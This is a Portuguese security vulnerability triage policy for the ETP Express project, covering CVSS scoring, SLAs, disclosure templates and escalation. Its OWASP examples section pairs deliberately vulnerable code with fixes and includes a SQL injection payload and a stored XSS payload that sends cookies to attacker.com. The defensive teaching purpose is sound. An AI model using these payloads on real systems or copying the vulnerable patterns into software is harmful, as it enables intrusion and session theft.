

# 🔒 Security Vulnerability Triage Process

## Visão Geral

Este documento descreve o processo formal de triage, priorização e remediação de vulnerabilidades de segurança reportadas ao projeto **ETP Express**. O processo garante resposta consistente, transparente e eficiente a descobertas de segurança, sejam elas identificadas internamente, por pentests ou por reportes externos via [SECURITY.md](../SECURITY.md).

**Última Atualização:** 2025-11-26
**Responsável:** Equipe de Segurança ETP Express
**Referências:** OWASP, NIST SP 800-61, CVSS v3.1

---

## 1. Vulnerability Assessment

### 1.1 CVSS Scoring (Common Vulnerability Scoring System)

Utilizamos o **CVSS v3.1** para avaliar a severidade de vulnerabilidades de forma objetiva e padronizada.

#### Componentes do CVSS 3.1

**Base Score** (0.0 - 10.0): Características intrínsecas da vulnerabilidade
- **Exploitability Metrics**:
  - `Attack Vector (AV)`: Network (N), Adjacent (A), Local (L), Physical (P)
  - `Attack Complexity (AC)`: Low (L), High (H)
  - `Privileges Required (PR)`: None (N), Low (L), High (H)
  - `User Interaction (UI)`: None (N), Required (R)
- **Impact Metrics**:
  - `Confidentiality (C)`: None (N), Low (L), High (H)
  - `Integrity (I)`: None (N), Low (L), High (H)
  - `Availability (A)`: None (N), Low (L), High (H)
  - `Scope (S)`: Unchanged (U), Changed (C)

**Temporal Score** (ajusta Base Score ao longo do tempo):
- `Exploit Code Maturity`: Not Defined (X), Unproven (U), Proof-of-Concept (P), Functional (F), High (H)
- `Remediation Level`: Not Defined (X), Official Fix (O), Temporary Fix (T), Workaround (W), Unavailable (U)
- `Report Confidence`: Not Defined (X), Unknown (U), Reasonable (R), Confirmed (C)

**Environmental Score** (contexto específico do ETP Express):
- Ajuste baseado em:
  - Criticidade do sistema afetado (alta para autenticação/LGPD)
  - Exposição (aplicação web pública vs. componente interno)
  - Dados processados (informações sensíveis de servidores públicos)

#### Cálculo do CVSS Score

**Ferramenta:** [CVSS Calculator v3.1](https://www.first.org/cvss/calculator/3.1)

**Exemplo de Avaliação:**

**Vulnerabilidade:** SQL Injection no endpoint `/api/etps/search`

```
Base Score Calculation:
- Attack Vector: Network (AV:N) - aplicação web pública
- Attack Complexity: Low (AC:L) - payload simples
- Privileges Required: None (PR:N) - endpoint público
- User Interaction: None (UI:N) - exploit direto
- Scope: Changed (S:C) - pode acessar banco de dados
- Confidentiality: High (C:H) - acesso a todos os dados
- Integrity: High (I:H) - pode modificar dados
- Availability: High (A:H) - pode deletar dados

CVSS String: CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:C/C:H/I:H/A:H
Base Score: 10.0 (CRITICAL)
```

### 1.2 Severity Classification

| Severity | CVSS Score | Color | Icon | Time to Fix | Time to Patch |
|----------|------------|-------|------|-------------|---------------|
| **CRITICAL** | 9.0 - 10.0 | 🔴 Red | ⚠️ | 7 dias | 24 horas |
| **HIGH** | 7.0 - 8.9 | 🟠 Orange | ⚡ | 30 dias | 7 dias |
| **MEDIUM** | 4.0 - 6.9 | 🟡 Yellow | ⚠️ | 90 dias | 30 dias |
| **LOW** | 0.1 - 3.9 | 🟢 Green | ℹ️ | Best effort | Best effort |

**Exemplos por Severidade:**

**CRITICAL (9.0-10.0):**
- Remote Code Execution (RCE)
- SQL Injection com data exfiltration
- Authentication Bypass permitindo acesso total
- Exposed secrets com privilégios admin

**HIGH (7.0-8.9):**
- Cross-Site Scripting (XSS) com session hijacking
- CSRF em endpoints críticos (ex: delete user)
- Insecure Direct Object Reference (IDOR) com acesso a dados sensíveis
- LGPD violation (acesso não autorizado a dados pessoais)

**MEDIUM (4.0-6.9):**
- Information Disclosure (stack traces, versões)
- Missing rate limiting em endpoints públicos
- Weak password policy
- CORS misconfiguration com impacto limitado

**LOW (0.1-3.9):**
- Self-XSS (requer engenharia social)
- Missing security headers (sem exploit conhecido)
- Outdated dependencies (sem CVE crítico)
- Minor information leakage (metadata sem dados sensíveis)

---

## 2. Triage Workflow

### 2.1 Fluxo Completo



**Representação ASCII (alternativa):**

```
┌────────────────┐
│ Report Received│
└───────┬────────┘
        │ (48h)
        ▼
┌─────────────────┐
│ Acknowledgment  │
└───────┬─────────┘
        │
        ▼
┌─────────────────┐
│   Assessment    │──► Reprodução PoC
│   (CVSS Calc)   │──► Severity Rating
└───────┬─────────┘
        │
        ▼
┌─────────────────┐
│ Prioritization  │──► Assign Severity + SLA
└───────┬─────────┘
        │
        ▼
┌─────────────────┐
│   Assignment    │──► Developer responsável
└───────┬─────────┘
        │
        ▼
┌─────────────────┐
│  Remediation    │──► Implementar fix
│  (Code Review)  │
└───────┬─────────┘
        │
        ▼
┌─────────────────┐
│   Validation    │──► Reporter/Pentester valida
└───────┬─────────┘
        │
        ▼
┌─────────────────┐
│   Disclosure    │──► Security Advisory (GitHub)
└───────┬─────────┘
        │
        ▼
    [CLOSED]
```

### 2.2 Detalhamento dos Passos

#### Step 1: Receipt (Recebimento)
**SLA:** 48 horas para acknowledgment

**Ação:**
1. Reporter envia report via:
   - Email: security@etp-express.com (SECURITY.md)
   - GitHub Security Advisory (private disclosure)
   - Pentest vendor (report formal)
2. Security team recebe e registra issue interna (GitHub private issue)
3. Atribuir ID de tracking: `SEC-YYYY-NNN` (ex: SEC-2025-001)

**Resposta:** Enviar acknowledgment (template 4.1)

---

#### Step 2: Assessment (Avaliação)
**SLA:** 7 dias (CRITICAL), 14 dias (HIGH), 30 dias (MEDIUM/LOW)

**Ação:**
1. **Reproduzir PoC (Proof of Concept)**:
   - Setup ambiente de testes isolado
   - Executar steps do PoC fornecido
   - Documentar screenshots/logs
   - Se PoC não reproduz → solicitar clarificação ao reporter

2. **Calcular CVSS Score**:
   - Usar [CVSS Calculator 3.1](https://www.first.org/cvss/calculator/3.1)
   - Preencher Base Metrics
   - Ajustar Temporal Metrics (exploit maturity)
   - Ajustar Environmental Metrics (impacto no ETP Express)

3. **Classificar Severity**:
   - CRITICAL, HIGH, MEDIUM, LOW (tabela 1.2)

4. **Validar OWASP Top 10**:
   - Mapear para categoria OWASP (ex: A03 Injection)
   - Documentar CWE (Common Weakness Enumeration)

**Output:** Report interno com CVSS score + severity + PoC reproduzido

---

#### Step 3: Prioritization (Priorização)
**SLA:** Imediato após assessment

**Ação:**
1. Atribuir **Severity** (CRITICAL/HIGH/MEDIUM/LOW)
2. Determinar **SLA** baseado em severity (tabela 1.2)
3. Avaliar **Risk Score** (Likelihood × Impact):
   - Likelihood: Facilidade de exploração (PoC público? Exploitability High?)
   - Impact: Dano potencial (dados sensíveis? compliance LGPD?)
4. Priorizar baseado em:
   - Risk Score alto = prioridade máxima
   - LGPD compliance = prioridade alta (dados pessoais)
   - Public disclosure iminente = prioridade crítica

**Output:** Issue priorizada com SLA definido

---

#### Step 4: Assignment (Atribuição)
**SLA:** 24h após prioritization

**Ação:**
1. Atribuir **Developer responsável**:
   - CRITICAL → Senior developer + Security team
   - HIGH → Senior developer
   - MEDIUM/LOW → Qualquer developer disponível
2. Criar **GitHub Issue** (se não existir):
   - Título: `[SEC-YYYY-NNN] <descrição curta>`
   - Labels: `security`, `priority/P0` (ou P1/P2/P3)
   - Milestone: Próximo release
   - Assignee: Developer responsável
3. Adicionar ao sprint atual (se CRITICAL/HIGH)

**Output:** Developer informado e issue atribuída

---

#### Step 5: Remediation (Remediação)
**SLA:** Conforme severity (7d CRITICAL, 30d HIGH, 90d MEDIUM, best effort LOW)

**Ação:**
1. **Developer implementa fix**:
   - Seguir secure coding practices (OWASP guidelines)
   - Adicionar testes automatizados (unit + integration)
   - Documentar fix em commit message
   - Exemplo commit: `security(auth): fix SQL injection in /api/etps/search (#SEC-2025-001)`

2. **Code Review obrigatório**:
   - CRITICAL → 2 reviewers (Security team + Senior dev)
   - HIGH → 1 reviewer (Senior dev ou Security team)
   - MEDIUM/LOW → 1 reviewer

3. **Testes de segurança**:
   - Executar PoC original → deve falhar agora
   - Testar edge cases
   - Verificar não introduziu regressões

**Output:** PR com fix implementado + testes + code review aprovado

---

#### Step 6: Deploy (Deployment)
**SLA:** Conforme severity (24h CRITICAL, 7d HIGH, 30d MEDIUM, best effort LOW)

**Ação:**
1. **Merge PR**:
   - Após code review aprovado
   - CI/CD deve passar (testes + linting + security checks)

2. **Deploy para produção**:
   - CRITICAL → Deploy imediato (hotfix)
   - HIGH → Deploy no próximo release (dentro de 7 dias)
   - MEDIUM/LOW → Deploy no próximo release planejado

3. **Monitoramento pós-deploy**:
   - Verificar logs de erro (Sentry)
   - Monitorar métricas de performance (Railway)
   - Validar fix em produção (smoke tests)

**Output:** Fix deployed em produção

---

#### Step 7: Validation (Validação)
**SLA:** 7 dias após deploy

**Ação:**
1. **Reporter valida fix**:
   - Enviar credenciais de teste (staging/produção)
   - Solicitar validação do PoC original
   - Reporter confirma: Vulnerabilidade corrigida ✅

2. **Se reporter não valida em 7 dias**:
   - Security team valida internamente
   - Documentar validação no issue

3. **Se validação falha** (PoC ainda funciona):
   - Retornar para Step 5 (Remediation)
   - Investigar por que fix não funcionou
   - Iterar até fix completo

**Output:** Validação confirmada (vulnerability fixed)

---

#### Step 8: Disclosure (Divulgação Pública)
**SLA:** 30-90 dias após fix (coordenated disclosure)

**Ação:**
1. **Aguardar período de disclosure**:
   - CRITICAL → 30 dias após fix deployed
   - HIGH → 60 dias após fix deployed
   - MEDIUM/LOW → 90 dias após fix deployed

2. **Publicar Security Advisory** (GitHub):
   - Criar em: https://github.com/tjsasakifln/etp-express/security/advisories
   - Incluir: CVE ID (se aplicável), CVSS score, descrição, fix version
   - Creditar reporter (se autorizado)

3. **Notificar usuários** (se necessário):
   - Email para usuários afetados (se breach de dados)
   - Update no CHANGELOG.md
   - Security notification no frontend (se crítico)

**Template 4.4:** Ver seção 4. Communication Templates

**Output:** Vulnerability publicamente disclosed, usuários informados

---

## 3. SLA por Severidade

### 3.1 Tabela de SLAs

| Severity | CVSS Score | Time to Acknowledge | Time to Assessment | Time to Fix | Time to Patch (Production) | Example |
|----------|------------|---------------------|-------------------|-------------|---------------------------|---------|
| **CRITICAL** | 9.0-10.0 | 24 horas | 3 dias | 7 dias | 24 horas | RCE, SQL Injection, Auth Bypass |
| **HIGH** | 7.0-8.9 | 48 horas | 7 dias | 30 dias | 7 dias | XSS, CSRF, IDOR, LGPD violation |
| **MEDIUM** | 4.0-6.9 | 72 horas | 14 dias | 90 dias | 30 dias | Info disclosure, Weak password policy |
| **LOW** | 0.1-3.9 | 7 dias | 30 dias | Best effort | Best effort | Self-XSS, Missing headers |

### 3.2 Definições de SLA

**Time to Acknowledge:**
- Tempo máximo para enviar acknowledgment ao reporter
- Inicia quando report é recebido

**Time to Assessment:**
- Tempo máximo para completar avaliação (PoC + CVSS + severity)
- Inicia após acknowledgment

**Time to Fix:**
- Tempo máximo para implementar e validar fix completo
- Inicia após assessment

**Time to Patch (Production):**
- Tempo máximo para deploy do fix em produção
- Inicia após fix validado em staging

### 3.3 Exceções aos SLAs

**Bloqueios aceitáveis:**
1. **Dependency vulnerability** (terceiros):
   - Se vulnerabilidade está em biblioteca externa sem patch
   - Documentar workaround temporário
   - Escalar para vendor da biblioteca
   - SLA pausado até patch disponível

2. **Breaking changes** (arquitetura):
   - Se fix requer refatoração arquitetural grande
   - Documentar mitigation temporária (ex: rate limiting)
   - Planejar refatoração completa em próximo milestone
   - SLA estendido com aprovação do Security Lead

**Comunicação de atrasos:**
- Notificar reporter a cada 7 dias com status update (template 4.2)
- Documentar razão do atraso no issue interno
- Propor novo SLA estimado

---

## 4. Communication Templates

### 4.1 Acknowledgment Email Template

**Subject:** `[ETP Express Security] Vulnerability Report Received - SEC-YYYY-NNN`

```
Hello [Reporter Name],

Thank you for reporting a security vulnerability to ETP Express.

We have received your report and assigned it the tracking ID: SEC-YYYY-NNN

**Next Steps:**
1. Our security team will assess the vulnerability within [X days] based on severity.
2. We will keep you updated on the progress every 7 days.
3. Once validated and fixed, we will coordinate disclosure with you.

**Confidentiality:**
We kindly request that you do not publicly disclose this vulnerability until we have issued a fix and coordinated a public disclosure timeline.

**Questions?**
Feel free to reply to this email if you have any questions or need to provide additional information.

Thank you for helping us keep ETP Express secure.

Best regards,
ETP Express Security Team
security@etp-express.com

---
Tracking ID: SEC-YYYY-NNN
Report Date: YYYY-MM-DD
Severity: [To be determined]
```

---

### 4.2 Status Update Template (Every 7 Days)

**Subject:** `[ETP Express Security] Update on SEC-YYYY-NNN`

```
Hello [Reporter Name],

This is a status update on your vulnerability report SEC-YYYY-NNN.

**Current Status:** [In Assessment | In Remediation | In Validation | Fixed]

**Progress:**
- [X] Report received and acknowledged
- [X/- ] Vulnerability reproduced and assessed (CVSS: [Score])
- [X/- ] Fix implemented and code reviewed
- [ ] Fix validated by reporter
- [ ] Fix deployed to production

**Next Steps:**
[Describe what will happen next, e.g., "We are currently implementing the fix and expect to have a patch ready by YYYY-MM-DD."]

**Estimated Timeline:**
- Fix implementation: [Date]
- Production deployment: [Date]
- Public disclosure: [Date] (30-90 days after deployment)

Thank you for your patience and for helping us improve the security of ETP Express.

Best regards,
ETP Express Security Team

---
Tracking ID: SEC-YYYY-NNN
Severity: [CRITICAL | HIGH | MEDIUM | LOW]
CVSS: [Score]
```

---

### 4.3 Fix Notification Template

**Subject:** `[ETP Express Security] Vulnerability SEC-YYYY-NNN Fixed`

```
Hello [Reporter Name],

We are pleased to inform you that the vulnerability you reported (SEC-YYYY-NNN) has been fixed and deployed to production.

**Fix Details:**
- **Version:** v[X.Y.Z]
- **Deployed:** YYYY-MM-DD
- **Patch Notes:** [Link to CHANGELOG.md or GitHub release]

**Validation Request:**
We kindly request that you validate the fix to confirm the vulnerability has been fully remediated.

**Validation Credentials:**
- Environment: [Production URL or staging]
- Test credentials: [If applicable, provide test account]

Please let us know within 7 days if you can confirm the fix, or if you identify any remaining issues.

**Public Disclosure:**
We plan to publish a security advisory on [Date] (30-90 days from now). If you would like to be credited in the advisory, please reply with your preferred name/handle.

Thank you again for your responsible disclosure.

Best regards,
ETP Express Security Team

---
Tracking ID: SEC-YYYY-NNN
Fix Version: v[X.Y.Z]
Deployed: YYYY-MM-DD
```

---

### 4.4 Public Disclosure Template (Security Advisory)

**GitHub Security Advisory Template:**

```
**Title:** [Type] in [Component] allows [Impact]

**Severity:** [CRITICAL | HIGH | MEDIUM | LOW]

**CVSS Score:** [Score] ([Vector String])

**Affected Versions:** [Version range]

**Patched Versions:** v[X.Y.Z]

**Description:**
A [type of vulnerability, e.g., SQL Injection] was discovered in [component, e.g., the /api/etps/search endpoint] of ETP Express versions [affected range]. This vulnerability allows [impact, e.g., an unauthenticated attacker to execute arbitrary SQL queries, potentially leading to data exfiltration or modification].

**Impact:**
An attacker could exploit this vulnerability to:
- [Impact 1, e.g., Access sensitive user data (names, emails, CPFs)]
- [Impact 2, e.g., Modify or delete database records]
- [Impact 3, e.g., Bypass authentication mechanisms]

**Proof of Concept:**
[Optional: Include sanitized PoC if educational, or omit if sensitive]

**Remediation:**
Users are strongly advised to upgrade to version v[X.Y.Z] or later immediately.

**Upgrade Instructions:**
```bash
# Backend
cd backend
npm install etp-express@latest
npm run migration:run

# Frontend
cd frontend
npm install
npm run build
```

**Workaround (if applicable):**
If immediate upgrade is not possible, apply the following temporary mitigation:
- [Workaround step 1]
- [Workaround step 2]

**Timeline:**
- **Reported:** YYYY-MM-DD
- **Fixed:** YYYY-MM-DD (v[X.Y.Z])
- **Disclosed:** YYYY-MM-DD

**Credits:**
We would like to thank [Reporter Name/Handle] for responsibly disclosing this vulnerability.

**References:**
- CVSS Calculator: https://www.first.org/cvss/calculator/3.1
- OWASP: [Relevant link]
- CWE: [CWE-XXX]

---

For questions, contact: security@etp-express.com
```

---

## 5. Escalation Process

### 5.1 Quando Escalar

**Escalar quando:**
1. **SLA não cumprido**:
   - CRITICAL: 7 dias sem fix → escalar imediatamente
   - HIGH: 30 dias sem fix → escalar
   - MEDIUM: 90 dias sem fix → escalar

2. **Bloqueio técnico**:
   - Fix requer mudança arquitetural grande
   - Dependency vulnerability sem patch disponível
   - Conflito de prioridades (security vs. feature deadlines)

3. **Public disclosure iminente**:
   - Reporter ameaça public disclosure antes do fix
   - PoC vaza publicamente (exploit in the wild)
   - Mídia descobre vulnerabilidade

### 5.2 Cadeia de Escalation

```
Developer → Tech Lead → Security Lead → CTO
```

**Nível 1: Developer**
- Responsável direto pela implementação do fix
- Comunica bloqueios ao Tech Lead

**Nível 2: Tech Lead**
- Prioriza fix no sprint
- Aloca recursos adicionais (se CRITICAL/HIGH)
- Escala para Security Lead se bloqueio técnico

**Nível 3: Security Lead**
- Decide workarounds temporários
- Aprova extensão de SLA (com justificativa)
- Escala para CTO se impacto de negócio ou compliance

**Nível 4: CTO**
- Decisão final sobre trade-offs (security vs. business)
- Autoriza disclosure antecipado (se necessário)
- Comunica com stakeholders externos (clientes, ANPD)

### 5.3 Workarounds Temporários

**Quando fix completo não é possível no SLA:**

**Opções de Mitigation:**
1. **Rate Limiting:**
   - Aplicar em endpoint vulnerável
   - Reduz likelihood de exploit

2. **Input Validation:**
   - Adicionar validação temporária (ex: regex, whitelist)
   - Bloqueia payloads maliciosos conhecidos

3. **Feature Toggle (Kill Switch):**
   - Desabilitar feature vulnerável temporariamente
   - Comunicar downtime planejado

4. **WAF Rules (Web Application Firewall):**
   - Adicionar regra no Railway/Cloudflare
   - Bloqueia padrões de ataque conhecidos

**Documentação de Workaround:**
- Adicionar em issue GitHub: `[WORKAROUND] <descrição>`
- Notificar reporter (template 4.2 modificado)
- Planejar fix completo em milestone futuro

---

## 6. Exemplos de Vulnerabilidades OWASP Top 10

### 6.1 A01: Broken Access Control

**Exemplo:** IDOR (Insecure Direct Object Reference) em `/api/etps/:id`

**Vulnerabilidade:**
```typescript
// backend/src/etps/etps.controller.ts (VULNERÁVEL)
@Get(':id')
async getEtp(@Param('id') id: number) {
  return this.etpsService.findOne(id); // Não verifica ownership!
}
```

**PoC:**
```bash
# Atacante com userId=10 acessa ETP de userId=5
curl -H "Authorization: Bearer <token-user10>" \
  https://etp-express.com/api/etps/999
# Retorna ETP #999 mesmo não sendo do user 10
```

**Fix:**
```typescript
// backend/src/etps/etps.controller.ts (SEGURO)
@Get(':id')
async getEtp(@Param('id') id: number, @CurrentUser() user: User) {
  const etp = await this.etpsService.findOne(id);
  if (etp.userId !== user.id && !user.isAdmin) {
    throw new ForbiddenException('Você não tem permissão para acessar este ETP');
  }
  return etp;
}
```

**CVSS:** 7.5 (HIGH) - `CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:N/A:N`

---

### 6.2 A03: Injection (SQL Injection)

**Exemplo:** SQL Injection em `/api/etps/search?title=...`

**Vulnerabilidade:**
```typescript
// backend/src/etps/etps.service.ts (VULNERÁVEL)
async search(title: string) {
  const query = `SELECT * FROM etps WHERE title LIKE '%${title}%'`; // Concatenação direta!
  return this.entityManager.query(query);
}
```

**PoC:**
```bash
# Payload malicioso
curl "https://etp-express.com/api/etps/search?title=%27%20OR%201=1--"
# Retorna TODOS os ETPs (bypass de autenticação)
```

**Fix:**
```typescript
// backend/src/etps/etps.service.ts (SEGURO)
async search(title: string) {
  return this.etpsRepository
    .createQueryBuilder('etp')
    .where('etp.title LIKE :title', { title: `%${title}%` }) // Prepared statement
    .andWhere('etp.userId = :userId', { userId: currentUser.id })
    .getMany();
}
```

**CVSS:** 9.8 (CRITICAL) - `CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H`

---

### 6.3 A03: Injection (XSS - Cross-Site Scripting)

**Exemplo:** Stored XSS em campo `title` do ETP

**Vulnerabilidade:**
```tsx
// frontend/src/components/EtpCard.tsx (VULNERÁVEL)
<h2 dangerouslySetInnerHTML={{ __html: etp.title }} /> {/* Renderiza HTML raw! */}
```

**PoC:**
```bash
# Criar ETP com payload XSS
POST /api/etps
{
  "title": "<script>fetch('https://attacker.com/steal?cookie='+document.cookie)</script>"
}
# Quando outro usuário visualiza este ETP → cookies são roubados
```

**Fix:**
```tsx
// frontend/src/components/EtpCard.tsx (SEGURO)
<h2>{etp.title}</h2> {/* React escapa automaticamente */}
```

**Backend (validação adicional):**
```typescript
// backend/src/etps/dto/create-etp.dto.ts
import { IsString, MaxLength, Matches } from 'class-validator';

export class CreateEtpDto {
  @IsString()
  @MaxLength(200)
  @Matches(/^[a-zA-Z0-9\s\-.,!?()]+$/, { // Whitelist de caracteres
    message: 'Título contém caracteres inválidos',
  })
  title: string;
}
```

**CVSS:** 8.1 (HIGH) - `CVSS:3.1/AV:N/AC:L/PR:L/UI:R/S:C/C:H/I:L/A:N`

---

### 6.4 A07: Authentication Failures (JWT Secret Exposure)

**Exemplo:** JWT secret hardcoded em código

**Vulnerabilidade:**
```typescript
// backend/src/auth/auth.module.ts (VULNERÁVEL)
JwtModule.register({
  secret: 'my-super-secret-key', // Hardcoded! 🚩
  signOptions: { expiresIn: '24h' },
}),
```

**Impacto:**
- Se código vazar (GitHub public repo) → atacante pode forjar tokens
- Atacante pode se autenticar como qualquer usuário

**Fix:**
```typescript
// backend/src/auth/auth.module.ts (SEGURO)
JwtModule.registerAsync({
  useFactory: (configService: ConfigService) => ({
    secret: configService.get('JWT_SECRET'), // Railway env var
    signOptions: { expiresIn: '24h' },
  }),
  inject: [ConfigService],
}),
```

**Railway Environment Variables:**
```env
JWT_SECRET=<random-256-bit-string> # Gerar com: openssl rand -base64 32
```

**CVSS:** 9.1 (CRITICAL) - `CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:N`

---

### 6.5 A05: Security Misconfiguration (CORS Aberto)

**Vulnerabilidade:**
```typescript
// backend/src/main.ts (VULNERÁVEL)
app.enableCors({
  origin: '*', // Permite QUALQUER origin! 🚩
  credentials: true,
});
```

**Impacto:**
- Site malicioso pode fazer requests autenticados em nome do usuário
- Cookie hijacking via CSRF

**Fix:**
```typescript
// backend/src/main.ts (SEGURO)
app.enableCors({
  origin: process.env.FRONTEND_URL || 'https://etp-express.com', // Whitelist
  credentials: true,
  methods: ['GET', 'POST', 'PUT', 'DELETE'],
  allowedHeaders: ['Content-Type', 'Authorization'],
});
```

**CVSS:** 6.5 (MEDIUM) - `CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:U/C:H/I:N/A:N`

---

## 7. Ferramentas e Recursos

### 7.1 CVSS Calculators

- **CVSS v3.1 Calculator:** https://www.first.org/cvss/calculator/3.1
- **NVD CVSS Calculator:** https://nvd.nist.gov/vuln-metrics/cvss/v3-calculator
- **CVSS v4.0 Calculator (futuro):** https://www.first.org/cvss/v4.0/calculator

### 7.2 Vulnerability Databases

- **NIST NVD:** https://nvd.nist.gov/
- **MITRE CVE:** https://cve.mitre.org/
- **GitHub Advisory Database:** https://github.com/advisories
- **npm audit database:** Built-in em `npm audit`

### 7.3 OWASP Resources

- **OWASP Top 10 (2023):** https://owasp.org/Top10/
- **OWASP Testing Guide:** https://owasp.org/www-project-web-security-testing-guide/
- **OWASP Cheat Sheets:** https://cheatsheetseries.owasp.org/

### 7.4 Incident Response

- **NIST SP 800-61 Rev 2:** https://csrc.nist.gov/publications/detail/sp/800-61/rev-2/final
- **SANS Incident Response:** https://www.sans.org/incident-response/

### 7.5 GitHub Security

- **Security Advisories:** https://docs.github.com/en/code-security/security-advisories
- **Dependabot:** https://docs.github.com/en/code-security/dependabot
- **Code Scanning:** https://docs.github.com/en/code-security/code-scanning

---

## 8. Métricas e KPIs

### 8.1 KPIs de Segurança

**Tracking mensal:**

1. **MTTD (Mean Time to Detect):**
   - Tempo médio entre vulnerability introduzida → detectada
   - Meta: < 30 dias

2. **MTTA (Mean Time to Acknowledge):**
   - Tempo médio entre report recebido → acknowledgment
   - Meta: < 48h

3. **MTTR (Mean Time to Remediate):**
   - Tempo médio entre report → fix deployed
   - Meta CRITICAL: < 7 dias
   - Meta HIGH: < 30 dias

4. **SLA Compliance Rate:**
   - % de vulnerabilities fixadas dentro do SLA
   - Meta: > 95%

5. **Reopen Rate:**
   - % de fixes que falharam validação (reabertos)
   - Meta: < 5%

### 8.2 Dashboard de Vulnerabilities

**Tracking contínuo:**

| Metric | Current | Target | Status |
|--------|---------|--------|--------|
| Open CRITICAL | 0 | 0 | ✅ |
| Open HIGH | 0 | ≤ 2 | ✅ |
| Open MEDIUM | 3 | ≤ 10 | ✅ |
| Open LOW | 8 | ≤ 20 | ✅ |
| MTTR (CRITICAL) | N/A | < 7d | - |
| MTTR (HIGH) | N/A | < 30d | - |
| SLA Compliance | N/A | > 95% | - |

**Atualizar mensalmente em:** `docs/SECURITY_METRICS.md` (futuro)

---

## 9. Revisões e Atualizações

**Frequência de Revisão:** Trimestral (a cada 3 meses)

**Responsável:** Security Lead + Tech Lead

**Checklist de Revisão:**
- [ ] SLAs ainda são realistas? (baseado em MTTR histórico)
- [ ] CVSS scoring está sendo aplicado consistentemente?
- [ ] Templates de comunicação estão eficazes?
- [ ] Novos tipos de vulnerabilidades surgiram (OWASP updates)?
- [ ] Ferramentas de segurança precisam ser atualizadas?
- [ ] KPIs estão sendo atingidos?

**Versionamento:**
- v1.0 (2025-11-26): Versão inicial
- v1.1 (YYYY-MM-DD): [Descrever mudanças]

---

## 10. Aprovações e Responsabilidades

| Role | Responsabilidade | Pessoa |
|------|------------------|--------|
| **Security Lead** | Aprovar processo, decisões de escalation | TBD |
| **Tech Lead** | Priorizar fixes, alocar recursos | TBD |
| **Developers** | Implementar fixes, code review | Time de Desenvolvimento |
| **QA/Testers** | Validar fixes, executar security tests | Time de QA |
| **DevOps** | Deploy de patches, monitoramento | Time de DevOps |

**Aprovação deste documento:**

- [ ] Security Lead: ________________ (Data: ______)
- [ ] Tech Lead: ________________ (Data: ______)
- [ ] CTO: ________________ (Data: ______)

---

## Apêndices

### Apêndice A: Glossário

**CVSS:** Common Vulnerability Scoring System - sistema padronizado de scoring de vulnerabilidades

**PoC:** Proof of Concept - demonstração prática de exploração de vulnerabilidade

**CVE:** Common Vulnerabilities and Exposures - identificador único de vulnerabilidades públicas

**CWE:** Common Weakness Enumeration - classificação de tipos de vulnerabilidades

**SLA:** Service Level Agreement - acordo de tempo de resposta

**MTTR:** Mean Time to Remediate - tempo médio para corrigir vulnerabilidade

**WAF:** Web Application Firewall - firewall de aplicação web

**IDOR:** Insecure Direct Object Reference - referência direta insegura a objetos

**RCE:** Remote Code Execution - execução remota de código

**XSS:** Cross-Site Scripting - injeção de scripts maliciosos

**CSRF:** Cross-Site Request Forgery - falsificação de requisição entre sites

**LGPD:** Lei Geral de Proteção de Dados (Brazilian GDPR)

### Apêndice B: Referências

1. OWASP Top 10 (2023): https://owasp.org/Top10/
2. CVSS v3.1 Specification: https://www.first.org/cvss/v3.1/specification-document
3. NIST SP 800-61 (Incident Response): https://csrc.nist.gov/publications/detail/sp/800-61/rev-2/final
4. GitHub Security Best Practices: https://docs.github.com/en/code-security
5. OWASP Testing Guide: https://owasp.org/www-project-web-security-testing-guide/

---

**Documento criado em:** 2025-11-26
**Última atualização:** 2025-11-26
**Versão:** 1.0
**Próxima revisão:** 2026-02-26 (3 meses)
